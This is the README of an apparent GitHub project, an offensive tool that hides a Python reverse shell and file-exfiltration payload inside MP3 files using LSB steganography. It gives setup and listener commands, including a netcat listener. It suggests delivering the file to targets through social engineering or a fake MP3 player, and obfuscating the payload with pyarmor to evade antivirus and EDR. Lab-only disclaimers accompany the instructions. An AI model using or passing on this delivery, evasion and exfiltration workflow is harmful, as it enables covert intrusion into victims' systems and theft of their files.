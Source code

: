 MP3 Reverse Shell with LSB Steganography
This project is a Python-based tool designed for red teaming in controlled lab environments. It embeds a reverse shell payload with data exfiltration capabilities into an MP3 file using Least Significant Bit (LSB) steganography. The embedded payload, when executed on a target system, establishes a reverse shell connection to an attacker's listener and exfiltrates files from a specified directory.
Author: Taylor Christian NewsomeWarning: This tool is for authorized use only in lab environments or with explicit permission. Unauthorized use is illegal and unethical.
Features

LSB Steganography: Embeds a Python reverse shell payload into an MP3 file without significantly affecting its playability.
Reverse Shell: Establishes a connection back to the attacker's listener, providing an interactive shell (/bin/sh).
Data Exfiltration: Extracts files from a specified directory (default: /tmp) and sends them to the attacker using base64 encoding.
Listener: Includes a server to receive exfiltrated data and interact with the reverse shell.
Error Handling: Robust validation for IP, port, file existence, and payload size.

Requirements
The core script uses Python standard libraries (os, socket, struct, glob, base64). Optional dependencies for enhanced functionality are listed in requirements.txt:
# requirements.txt
pyarmor>=8.5.12  # For payload obfuscation (optional)
pytest>=8.3.2    # For unit testing (optional)

Install optional dependencies:
pip install -r requirements.txt

Usage
This tool is intended for controlled lab environments (e.g., virtual machines). Follow these steps:
1. Setup

Ensure Python 3.6+ is installed.
Place an input.mp3 file in the project directory.
Update the following variables in main.py:
target_ip: Attacker's IP address (e.g., 192.168.1.10).
target_port: Listener port (e.g., 4444).
exfil_dir: Directory to exfiltrate files from (e.g., /tmp).



2. Embed Payload
Run the script to embed the payload into the MP3:
python main.py

This generates output.mp3 with the embedded payload.
3. Start Listener
On the attacker's machine, start the listener to receive exfiltrated data and the reverse shell:
# In main.py, uncomment and run:
start_listener("192.168.1.10", 4444)

Alternatively, use netcat:
nc -lvnp 4444

Exfiltrated files are saved to exfiltrated_data.txt.
4. Deploy and Execute on Target

Transfer output.mp3 to the target system (e.g., via social engineering or file sharing in the lab).
Extract and execute the payload on the target (requires a separate script or manual execution):from main import extract_payload, execute_payload
payload = extract_payload('output.mp3')
execute_payload(payload)

Note: You may need a delivery mechanism (e.g., a fake MP3 player script) to trigger execution.

5. Receive Data
The listener receives base64-encoded files from the target directory and provides an interactive shell.
Notes

MP3 Compatibility: LSB steganography may cause minor audio distortion. Test with a small MP3 file. Consider WAV files for better reliability, as MP3 compression can corrupt payloads.
Execution: The script does not auto-execute the payload on the target. Implement a trigger mechanism suitable for your lab scenario.
Security: Antivirus or EDR tools may detect the payload or modified MP3. Use pyarmor for obfuscation if needed.
Lab Safety: Use in an isolated environment (e.g., VMs with no external network access except to the listener).

Ethical Considerations
This tool is for educational and authorized red teaming purposes only. Unauthorized deployment of reverse shells or data exfiltration is illegal and unethical. Always obtain explicit, written permission from system owners before testing.
Files

main.py: Core script for embedding, extracting, and executing the payload, plus the listener.
requirements.txt: Lists optional dependencies (pyarmor, pytest).

License
This project is provided as-is for educational purposes. The author is not responsible for misuse. Use responsibly and legally.
Contact
For issues or contributions, open a GitHub issue or pull request at https://github.com/SleepTheGod/Mp3-Reverse-Shell/.
© 2025 SleepTheGod

